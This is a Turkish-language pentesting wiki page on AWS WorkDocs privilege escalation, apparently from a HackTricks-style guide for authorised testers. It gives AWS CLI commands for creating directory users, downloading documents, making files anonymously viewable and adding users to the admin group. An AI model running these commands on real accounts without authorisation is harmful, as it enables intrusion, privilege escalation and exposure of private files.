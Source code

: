 # AWS - WorkDocs Privilege Escalation

## WorkDocs

WorkDocs hakkında daha fazla bilgi için şu adrese bakın:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Belirtilen Dizin içinde bir kullanıcı oluşturun, böylece hem WorkDocs'a hem de AD'ye erişiminiz olacaktır:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Dosyalar hassas bilgiler içerebilir, onları okuyun:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Bir şeye erişiminiz yoksa, sadece erişim sağlayabilirsiniz.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Bir kullanıcıyı yönetici yapabilirsiniz, onu ZOCALO_ADMIN grubuna ekleyerek. Bunun için [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html) adresindeki talimatları izleyin.

Kullanıcıyla workdoc'a giriş yapın ve `/workdocs/index.html#/admin` adresindeki yönetici paneline erişin.

Bu işlemi cli üzerinden yapmanın bir yolunu bulamadım.
